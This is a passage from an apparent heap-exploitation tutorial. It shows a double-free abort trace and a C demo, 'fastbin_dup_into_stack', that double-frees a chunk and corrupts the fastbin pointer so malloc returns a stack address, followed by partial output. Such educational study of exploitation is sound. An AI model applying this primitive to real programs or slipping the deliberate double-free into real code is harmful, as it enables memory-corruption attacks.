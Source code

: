 ```
malloc 4: 0x7ffc498b2978 => 0x559e30950260
malloc 5: 0x7ffc498b2980 => 0x559e30950260
malloc 6: 0x7ffc498b2988 => 0x559e30950260
malloc 7: 0x7ffc498b2990 => 0x559e30950260
malloc 8: 0x7ffc498b2998 => 0x559e30950260
Finally trigger double-free
free 1: 0x7ffc498b2960 => 0x559e30950260
free 2: 0x7ffc498b2968 => 0x559e30950260
double free or corruption (fasttop)
[2]    1244 abort (core dumped)  ./a.out
```

#### fastbin_dup_into_stack
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    unsigned long long stack_var = 0x21;
    fprintf(stderr, "Allocating 3 buffers.\n");
    char *a = malloc(9);
    char *b = malloc(9);
    char *c = malloc(9);
    strcpy(a, "AAAAAAAA");
    strcpy(b, "BBBBBBBB");
    strcpy(c, "CCCCCCCC");
    fprintf(stderr, "1st malloc(9) %p points to %s\n", a, a);
    fprintf(stderr, "2nd malloc(9) %p points to %s\n", b, b);
    fprintf(stderr, "3rd malloc(9) %p points to %s\n", c, c);

    fprintf(stderr, "Freeing the first one %p.\n", a);
    free(a);
    fprintf(stderr, "Then freeing another one %p.\n", b);
    free(b);
    fprintf(stderr, "Freeing the first one %p again.\n", a);
    free(a);

    fprintf(stderr, "Allocating 4 buffers.\n");
    unsigned long long *d = malloc(9);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
    fprintf(stderr, "4nd malloc(9) %p points to %p\n", d, &d);
    char *e = malloc(9);
    strcpy(e, "EEEEEEEE");
    fprintf(stderr, "5nd malloc(9) %p points to %s\n", e, e);
    char *f = malloc(9);
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "6rd malloc(9) %p points to %s\n", f, f);
    char *g = malloc(9);
    strcpy(g, "GGGGGGGG");
    fprintf(stderr, "7th malloc(9) %p points to %s\n", g, g);
}
```
```
$ gcc -g fastbin_dup_into_stack.c 
$ ./a.out 
Allocating 3 buffers.
1st malloc(9) 0xcf2010 points to AAAAAAAA
2nd malloc(9) 0xcf2030 points to BBBBBBBB
3rd malloc(9) 0xcf2050 points to CCCCCCCC
Freeing the first one 0xcf2010.
Then freeing another one 0xcf2030.
Freeing the first one 0xcf2010 again.
Allocating 4 buffers.
```
